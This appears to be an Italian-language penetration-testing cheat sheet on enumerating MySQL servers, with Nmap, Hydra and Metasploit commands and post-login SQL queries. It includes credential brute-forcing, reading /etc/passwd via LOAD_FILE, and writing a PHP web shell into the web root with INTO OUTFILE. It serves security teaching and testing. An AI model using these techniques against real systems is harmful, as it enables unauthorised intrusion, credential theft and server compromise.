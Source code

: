 # MySQL Enumeration

**MySQL** è uno dei database più utilizzati nel mondo Linux e web. È spesso usato come backend per applicazioni dinamiche (es. WordPress, Joomla, custom CMS) e può contenere informazioni estremamente sensibili, come:

- Dati degli utenti
- Hash delle password
- Informazioni di configurazione
- Log, email, contenuti interni

La porta predefinita per MySQL è la `3306/TCP`.

---

## Perché enumerare MySQL durante un penetration test?

Se MySQL è esposto alla rete e accetta connessioni da host remoti, può diventare una fonte molto ricca di informazioni. Anche senza accesso diretto, la sola enumerazione può rivelare:

- Versione del server (e relative CVE)
- Utenti esistenti
- Tabelle presenti
- Permessi configurati
- Dati interni utili a escalation o pivoting

---

## Fase 1 – Scansione iniziale

Con Nmap puoi rilevare la presenza di MySQL e tentare una prima enumerazione:

```bash
nmap -p 3306 -sV <IP>
nmap -p 3306 --script mysql-info <IP>
```

Il secondo comando può restituire informazioni come:

- Versione esatta (es. `5.7.33`)
- OS host
- Metodo di autenticazione

Script NSE utile:
```bash
nmap -p 3306 --script mysql-enum <IP>
```

Con Metasploit:
```bash
use auxiliary/scanner/mysql/mysql_version
```

---

## Fase 2 – Accesso con credenziali

Se hai scoperto o indovinato delle credenziali (es. da bruteforce, file di config trovati, info leakage), puoi connetterti da terminale con:

```bash
mysql -h <IP> -u <utente> -p
```

Esempio:
```bash
mysql -h 192.168.1.100 -u root -p
```

Se il login ha successo, accedi direttamente alla CLI del database.

---

## Fase 3 – Enumerazione interna (post-login)

Una volta dentro, alcuni comandi fondamentali:

```sql
SHOW DATABASES;             -- elenca tutti i database
USE <db>;                   -- entra nel database
SHOW TABLES;                -- elenca tutte le tabelle
DESCRIBE <tabella>;         -- mostra la struttura di una tabella
SELECT * FROM <tabella>;    -- legge il contenuto
```

Spesso tabelle con nomi come `users`, `accounts`, `admin`, `login` contengono username e password (in chiaro o hash).

---

## Fase 4 – User enumeration e permessi

```sql
SELECT user, host FROM mysql.user;  -- lista utenti e da dove si connettono
SHOW GRANTS FOR 'admin'@'%';        -- mostra i permessi di un utente
```

Può mostrare se l’utente ha permessi come `ALL PRIVILEGES`, `FILE`, `EXECUTE`...

---

## Fase 5 – Brute-force e tool automatici

### Hydra

```bash
hydra -L users.txt -P pass.txt mysql://<IP>
```

### Metasploit

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <IP>
set USER_FILE <path_to_userlist>
set PASS_FILE <path_to_passlist>
run
```

Dopo aver trovato credenziali valide, si può usare:

```bash
use auxiliary/admin/mysql/mysql_enum
```

Per interagire direttamente con il database usando query:

```bash
use auxiliary/admin/mysql/mysql_sql
set SQL 'SHOW DATABASES;'
run
```

Per dump dello schema (tabelle e database):

```bash
use auxiliary/scanner/mysql/mysql_schemadump
```

---

## Fase 6 – Escalation o pivot

Se hai accesso come utente con permessi elevati:

```sql
SELECT LOAD_FILE('/etc/passwd');        -- lettura di file locali
SELECT ... INTO OUTFILE '/var/www/html/shell.php'; -- scrittura di file
```

Attenzione: queste tecniche funzionano solo se l’utente ha permessi come `FILE`.

---
